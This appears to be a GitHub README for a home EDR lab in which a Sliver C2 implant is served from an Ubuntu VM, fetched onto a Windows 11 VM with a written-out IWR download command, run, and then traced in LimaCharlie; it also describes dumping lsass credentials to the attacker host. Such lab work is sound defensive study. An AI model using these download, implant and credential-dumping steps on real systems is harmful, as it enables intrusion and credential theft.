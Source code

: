# LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed Silver C2, a command and control attack tool for Windows machines.

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.


The architecture of the project consists of the following components:


- Virtual Box NatNetwork
- Virtual Machines (1 windows, 1 linux)
- LimaCharlieEDR
- Silver C2 Server

## Labbing

After environment is set up I created a implant on the Ubuntu server to install on to the Windows System

![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.

![IWR](https://i.imgur.com/dadsDeX.png)

Command: IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]


After downloading the implant we need to run the malicious file 


![Excute](https://i.imgur.com/mkdYQkp.png)

## After Implant is installed on Victum

We can run some commands inside the sliver-server session itself. 

Jumping inside our our session we can run some commands to identify the device we are on.

Whoami - Hostname

Netstat - Network connections

ps -T - Process Tree (sliver Highlights green its own files)

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After installing the malicious file we should be able to see this inside of our EDR soultion.

First thing to look at is going to be the processes running. After looking around for some time we see this file that does not have a signature(yellow)

![process](https://i.imgur.com/Pts6px0.png)

After finding that process we can go see that this file location is inside the Downloads folder of a user called Victum so we can locate this inside the filesystem section of LimaCharlie

![filesystem](https://i.imgur.com/ksRCp3P.png)

Now we are going to look at the timeline and go through and see what is going on when this file was installed. 

![timeline](https://i.imgur.com/jYVSaNr.png)

We can see that there is a Network Connetion created and the file in question is COMPLEX_BELL the malicious file. 

Usually a next step would be gathering the hash of the file and running this through VirusTotal but when doing this, VirusTotal returns nothing. This indicates that the attacker crafted this file themselves.  

## Back to Sliver-Server

For attackers getting access to more than one account is critical. A way to do this is gathering creditals from the file lsass.exe. This file holds usernames, passwords and security tokens.

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

Running this command will copy the contents of the lsass file and dump it inside of the attackers host. 



